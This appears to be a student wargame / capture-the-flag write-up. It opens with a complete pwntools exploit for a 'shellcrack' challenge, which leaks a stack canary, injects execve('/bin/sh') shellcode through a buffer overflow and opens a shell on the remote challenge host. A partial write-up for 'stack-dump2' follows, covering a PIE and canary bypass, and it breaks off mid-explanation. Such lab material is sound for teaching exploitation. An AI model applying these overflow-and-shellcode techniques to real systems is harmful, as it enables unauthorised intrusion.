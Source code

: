 Exploit:
```
from pwn import *

p = remote('plsdonthaq.me', 5001)
#p = process('./shellcrack')

p.sendline(b'A'*0xF) #15 A's and a \n so 16 bytes sent

p.recvuntil('This is the 6447 wargaming gateway, ')

p.recvline()
canary = p.recvline().rstrip()[:8]
match = re.search(r'0x[\da-f]+', p.recvline().rstrip().decode())
ebp_0x44 = int(match.group(), 16)


shellcode = asm(""" xor eax, eax
                    xor ecx, ecx
                    xor edx, edx
                    push ecx
                    push 0x68732f2f
                    push 0x6e69622f
                    mov al, 0x0b
                    mov ebx, esp
                    int 0x80 """)
precanary_padding = b'A'*(0x44-0x14 - len(shellcode))
postcanary_padding = b'A'*(0x14-0x8+0x4)

payload = shellcode + precanary_padding + canary + postcanary_padding + p32(ebp_0x44)

p.sendline(payload)

p.interactive()
```

stack-dump2
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
I initially struggled to overcome the PIE protection in order to get the address of the `win` function. I was initially trying to get an ebx-relative address off the stack and then using some other offsets try and derive the `win` function but that wouldn't work. So unlike in the original `stackdump`, I actually used the "print memory map" functionality to get the base address of the code segment which worked more reliably.

Script/Command used (Writeup)
------------------
All protections are enabled but we are given a stack pointer. As with the original stackdump challenge we can dump some memory to leak the stack canary, and then we will look to do a buffer overflow to overwrite the return address of `main` to `win`.
```
lea     eax, [ebp-0x71 {var_75}]
push    eax {var_75} {var_80}
lea     eax, [ebx-0x14d8]  {data_ad0, "To make things easier, here's a …"}
push    eax  {data_ad0, "To make things easier, here's a …"}
call    printf
```
We get given a userful stack pointer which is convenient. This address is ebp-0x71.
```
mov     eax, dword [gs:0x14]
mov     dword [ebp-0x8 {var_c}], eax
```